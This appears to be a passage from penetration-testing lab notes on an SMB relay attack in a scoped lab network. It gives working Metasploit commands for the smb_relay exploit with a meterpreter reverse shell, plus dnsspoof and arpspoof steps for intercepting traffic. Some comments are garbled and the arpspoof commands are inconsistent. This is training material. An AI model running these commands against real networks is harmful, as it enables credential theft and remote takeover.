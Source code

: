 
<br>

### 2.3. SMB Relay Attack ⚗️

The assumptions of this security engagement are:
- You are going to do an internal penetration test, where you will be connected directly into their LAN network 172.16.5.0/24. The scope in this test is only the 172.16.5.0/24 segment.
- You are in a production network, so you should not lock any user account by guessing their usernames and passwords.

**Goals**: 
- Exploitation using SMB Relay Attack
- Manipulating network traffic with dnsspoof

![[Pasted image 20250223160924.png]]

Launch an attack using the SMB Relay Exploit in a way that once the Client (172.16.5.5) issues a SMB connection to any hosts on the .sportsfoo.com domain it can be redirected to your Metasploit server, and then you can use its credentials to get a shell on the target machine (172.16.5.10).

**Step 1:** Start **msfconsole** and configure the SMB Relay exploit: **Commands:**

```shell
service postgresql start && msfconsole
search  smb_relay
use exploit/windows/smb/smb_relay
show options
set SRVHOST 172.16.5.101
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.5.101
set SMBHOST 172.16.5.10
exploit
```

**Step 2:** Configure dnsspoof

```shell
# In order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain, create a file with fake dns entry with all subdomains of sportsfoo.com pointing to our attacker machine.

echo "172.16.5.101 *.sportsfoo.com" > dns
# We are ready to run.
dnsspoof -i eth1 -f dns

# How move on to setting up the man in the middle attack and we'll utilize ops spoofing and our goal is to poison the traffic between our victim which is the Windows 7 system and the default gateway.
echo 1 > /proc/sys/net/ipv4/ip_forward
# In one terminal
arpspoof -i eth1 -t <TARGET_IP> -r <HOST_IP> # without -r

# In another terminal
arpspoof -i eth1 -t <TARGET_IP> -r <HOST_IP> 

# Every time the victim system or the wiondows 7 starts on SMB connection DNS spoof aligned with the ops spoofing attack forgets the DNS replies telling that the DNS address that they're looking for resolves to the Kali Linux system.
exploit # metasploit
jobs

sessions
getuid
```
